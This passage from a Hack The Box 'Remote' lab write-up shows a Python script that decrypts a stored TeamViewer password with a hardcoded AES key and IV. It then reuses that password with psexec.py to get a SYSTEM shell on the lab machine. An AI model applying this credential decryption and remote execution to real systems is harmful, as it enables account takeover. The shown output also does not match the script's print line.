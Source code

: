 I can change this script slightly so that it decrypts the password (I will use python for this):

```python
# Import AES crypto module
from Crypto.Cipher import AES

# setting the variables from the metasploit module
key = b"\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00"
iv = b"\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xF2\x5E\xA8\xD7\x04"
# create an array with the integers from SecurityPasswordAES
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174, 
                    19, 27, 70, 79, 88, 47, 108, 226, 209, 225, 243, 218, 
                    126, 141, 55, 107, 38, 57, 78, 91])

# creating the AES object and setting the correct key and IV
aes = AES.new(key, AES.MODE_CBC, IV=iv)
# decrypting the password
password = aes.decrypt(ciphertext).decode("utf-16").rstrip("\x00")

print(f"Password: {password}")
```

Run the script:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/remote]
└─$ python3 decrypt-tw-passwords.py
[+] Found password: !R3m0te!
```

The password is `!R3m0te!`. Let's check for a password reuse and connect to the machine with psexec.py:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/remote]
└─$ psexec.py 'administrator:!R3m0te!@10.10.10.180'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.10.180.....
[*] Found writable share ADMIN$
[*] Uploading file eEDpTQHM.exe
[*] Opening SVCManager on 10.10.10.180.....
[*] Creating service PeDK on 10.10.10.180.....
[*] Starting service PeDK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

That worked, I got a shell on the system.

## Root Flag

---